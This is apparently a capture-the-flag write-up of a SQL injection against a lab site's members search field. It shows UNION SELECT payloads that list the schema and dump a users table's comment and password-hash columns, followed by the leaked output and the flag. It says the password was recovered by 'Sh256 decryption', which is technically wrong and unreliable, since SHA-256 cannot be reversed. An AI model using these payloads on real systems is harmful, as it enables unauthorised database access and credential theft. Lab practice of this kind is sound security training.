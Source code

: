 # First step

In the members page, the search field gives a feeling to try an SQL injection to get all the table names and its columns names information from the database

# How to do that

I send the script
```
1 OR 1=1 UNION SELECT TABLE_NAME, COLUMN_NAME  FROM INFORMATION_SCHEMA.COLUMNS
```

then after a lot of checks we checks only on the users table
```
1 OR 1=1 UNION SELECT Commentaire, countersign FROM users
```
the original script:
```
SELECT * FROM users WHERE id = 'user_input';
```

after inject the script and send it as an userId:
```
SELECT * FROM users WHERE id = 1 OR 1=1 UNION SELECT Commentaire, countersign FROM users;
```
So the result is a table of users it's gonna be like that:
```
ID: 1 OR 1=1 UNION SELECT Commentaire, countersign FROM users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

After the Sh256 decryption the flag we get is:
```
59a7f515c31c489524d2c93aa4a27b6732cf248d664389990fa8c1be8af00291
```
